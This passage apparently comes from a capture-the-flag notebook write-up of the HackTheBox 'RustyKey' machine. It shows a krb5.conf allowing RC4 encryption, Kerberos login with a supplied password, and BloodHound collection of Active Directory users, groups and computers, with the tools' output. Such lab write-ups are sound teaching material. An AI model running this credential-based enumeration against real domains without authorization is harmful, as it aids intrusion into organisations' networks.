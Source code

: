     Server type string: null
    
    [!] Aborting remainder of tests since sessions failed, rerun with valid credentials
    
    Completed after 9.40 seconds


Lets load up krb5.conf. You'll note that later in this challenge we discover that we must manually identify certificates that the server will negotiate. It seems this was likely changed on the remote server and will impact our attempts to use default aesxxx-cts-hmac-sha1-96 ciphers.


```python
!cat krb5.conf
```

    [libdefaults]
            default_realm = RUSTYKEY.HTB 
            dns_lookup_kdc = true
            dns_lookup_realm = false
            ticket_lifetime = 24h
            renew_lifetime = 7d
            forwardable = true
            rdns = false
            default_tkt_enctypes = arcfour-hmac-md5 aes128-cts-hmac-sha1-96 rc4-hmac
            default_tgs_enctypes = arcfour-hmac-md5 aes128-cts-hmac-sha1-96 rc4-hmac
            permitted_enctypes = arcfour-hmac-md5 aes128-cts-hmac-sha1-96 rc4-hmac
    [realms]
            RUSTYKEY.HTB = {
                    kdc = dc.rustykey.htb
                    admin_server = dc.rustykey.htb
            }
    
    [domain_realm]
            .rustykey.htb = RUSTYKEY.HTB
            rustykey.htb = RUSTYKEY.HTB



```python
!echo $initialpassword | KRB5_CONFIG=./krb5.conf KRB5CCNAME=./rr.ccache kinit rr.parker
!ls -alhn ./rr.ccache
```

    Password for rr.parker@RUSTYKEY.HTB: 
    Warning: encryption type arcfour-hmac used for authentication is deprecated and will be disabled
    -rw------- 1 1000 990 1.6K Jul  6 22:44 ./rr.ccache


This mostly comes with the benefit of hindsight. During the engagement I didn't get this working exactly right, but this command will pull bloodhoudn goodies.


```python
!KRB5CCNAME=./rr.ccache KRB5_CONFIG=./krb5.conf bloodhound-python -u $initialuser -k -no-pass -ns 10.129.26.114 -d $target -dc dc.rustykey.htb -c All
```

    INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
    INFO: Found AD domain: rustykey.htb
    INFO: Using TGT from cache
    INFO: Found TGT with correct principal in ccache file.
    INFO: Connecting to LDAP server: dc.rustykey.htb
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 16 computers
    INFO: Connecting to LDAP server: dc.rustykey.htb
    INFO: Found 12 users
    INFO: Found 58 groups
    INFO: Found 2 gpos
    INFO: Found 10 ous
    INFO: Found 19 containers